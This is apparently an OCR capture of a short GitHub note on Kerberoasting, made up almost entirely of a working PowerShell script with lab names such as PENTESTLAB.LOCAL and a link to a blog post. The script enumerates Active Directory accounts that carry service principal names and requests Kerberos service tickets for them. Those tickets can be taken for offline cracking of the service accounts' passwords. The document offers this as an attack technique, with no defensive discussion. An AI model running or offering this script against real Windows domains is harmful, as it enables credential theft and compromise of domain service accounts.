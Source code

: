 # Kerberoasting

## Scripting

### PowerShell

```powershell
$ServiceName = "PENTESTLAB_001"
$ComputerName = "WIN-PTELU2U07KG"
$Domain = "PENTESTLAB.LOCAL"
$Port = 80

$FQDN = "$ComputerName.$Domain" # Fully Qualified Domain Name
$SPN = "$ServiceName/$FQDN:$Port" # Service Principal Name

$ldapFilter = "(&(objectclass=user)(objectcategory=user)(servicePrincipalName=*))"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 1000
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
# Execute Search
$results = $search.FindAll()
# Display SPN values from the returned objects
foreach ($result in $results)
{
    $userEntry = $result.GetDirectoryEntry()
    Write-Host "User Name = " $userEntry.name
    foreach ($SPN in $userEntry.servicePrincipalName)
    {
        Write-Host "SPN = " $SPN       
    }
    Write-Host ""    
}

Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $ComputerName "$SPN"
```

---
## References

### SQL Injection Blog Post

- [SQL Injection Blog Post: Kerberoasting - In Windows without Detection](https://sql--injection.blogspot.com/p/kerberoasting-in-windows.html)